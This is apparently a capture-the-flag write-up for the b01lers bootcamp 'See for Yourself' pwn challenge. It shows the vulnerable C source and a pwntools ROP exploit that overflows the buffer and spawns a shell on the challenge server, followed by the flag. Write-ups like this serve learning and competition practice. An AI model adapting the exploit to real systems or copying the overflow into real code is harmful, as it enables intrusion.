

## b01lers bootcamp: See for Yourself [pwn]


#### Source code:
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

char * binsh = "/bin/sh";

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    system(NULL);

    char * shellcode[0];

    printf("Unfortunately, no one can be told what the Matrix is. You have to see it for yourself.\n");
    read(0, shellcode, 64);
}

```

#### Just a simple rop challenge, many of these in my writeups website so I won't go into detail. The plan is to take control of RIP, search for gadgets to setup registers, find where binsh is in memory then ROP to execute execve('/bin/sh', 0, 0).

```python
from pwn import *

#:
#p = process('./simplerop')
p = remote('chal.ctf.b01lers.com', 1008)
#gdb.attach(p.pid, 'break *main + 114')
print(p.recv())

#: 
ret = 0x40101a
bin_sh = 0x402008
pop_rdi = 0x401273

exploit = cyclic(8)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(bin_sh)
exploit += p64(0x401080)
exploit += cyclic(64 - len(exploit))
p.sendline(exploit)
p.interactive()

#: flag{ROP_ROOP_OOP_OOPS}
```